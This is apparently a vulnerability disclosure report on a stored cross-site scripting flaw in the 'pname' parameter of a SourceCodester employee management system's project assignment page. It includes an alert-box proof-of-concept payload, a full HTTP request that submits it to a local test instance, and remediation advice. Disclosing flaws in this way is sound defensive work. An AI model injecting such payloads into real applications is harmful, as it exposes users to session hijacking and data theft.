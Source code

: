 # SOURCECODESTER EMPLOYEE MANAGEMENT SYSTEM - XSS Vulnerability in Project Assignment Report

### Title: XSS Vulnerability in Project Assignment
### Affected Component: /process/assignp.php
### CWE: TBD (Cross-Site Scripting)
### CVSS Base Score: TBD

### Summary:
The web application is vulnerable to cross-site scripting (XSS) attacks within the project assignment functionality. Attackers can exploit this vulnerability by injecting malicious JavaScript code into the "pname" parameter, which is used to assign project names. When unsuspecting users view the assigned project names, the injected script executes within their browsers, potentially leading to various malicious activities such as session hijacking or data theft.

### Proof of Concept (POC):
To exploit the XSS vulnerability, attackers craft a payload containing malicious JavaScript code and inject it into the "pname" parameter while assigning a project. For example, submitting the payload `<img src=x onerror=alert(1)>` as the project name triggers an alert box when viewed by other users. This demonstrates the successful execution of arbitrary scripts within the application.

#### HTTP Request:
```http
POST /process/assignp.php HTTP/1.1
Host: localhost:8080
Content-Length: 366
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Origin: http://localhost:8080
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Referer: http://localhost:8080///assign.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="eid"

648309
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="pname"

<img src=x onerror=alert(1)>
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="duedate"

2024-02-09
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB--
```

### Proof with Screenshot:
![XSS Vulnerability Proof](screenshot.png)

### Remediation:
To mitigate the XSS vulnerability, the application should implement proper input validation and output encoding techniques to sanitize user-supplied data before rendering it in the application's responses. Specifically, the "pname" parameter should be sanitized to ensure that it does not contain any executable code. Additionally, implementing content security policies (CSP) and regularly auditing the application's codebase for security vulnerabilities can further enhance its resilience against XSS attacks.
